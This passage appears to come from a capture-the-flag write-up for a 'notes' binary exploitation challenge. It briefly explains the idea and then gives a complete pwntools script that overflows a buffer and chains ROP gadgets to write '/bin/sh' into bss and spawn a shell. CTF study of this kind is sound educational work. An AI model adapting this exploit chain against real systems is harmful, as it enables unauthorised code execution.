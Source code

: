 We can control rdi, so if we just pass a bss address, we can write 8 bytes into it using this `read(shmem, 8)`. Thankfully "/bin/sh\\x00" is exactly 8 bytes. 

After we can control these registers we can drop directly into a shell. Heres my full script:

```python
from pwn import *
from time import sleep

pname = "./notes"
context.log_level = "debug"

def cmd(stuff):
    p.sendafter(": ", stuff)

def add(id, name, size, buf):
    p.sendlineafter(": ", str(1))
    cmd(id)
    cmd(name)
    p.sendlineafter(": ", str(size))
    cmd(buf)

sc = '''
b *0x00401b81
b *0x00401795
c
'''

p = process(pname)
#p = remote("pwn.chall.bi0s.in", 34973)
gdb.attach(p, sc)
sleep(1)

# 211:0x0000000000401bc2: syscall;
syscall = 0x0000000000401bc2 

## edit note stuff 
edits = 0x00401795

# bss buffer for our rdi:
bss_buf = 0x00000000404050

alarm_plt = 0x401060
# 179:0x0000000000401bc0: pop rdi; ret;
rdi = 0x0000000000401bc0

pload = b"A"*64
pload += b"C"*8
pload += p64(rdi)
pload += p64(bss_buf)
pload += p64(edits)
pload += p64(rdi)
pload += p64(0x3b)
pload += p64(alarm_plt)
pload += p64(rdi)
pload += p64(0x3b)
pload += p64(alarm_plt)
pload += p64(rdi)
pload += p64(bss_buf)
pload += p64(syscall)

add("A", "B", 60, "ABCD")
sleep(2)
add("A", "B", 600, pload )

```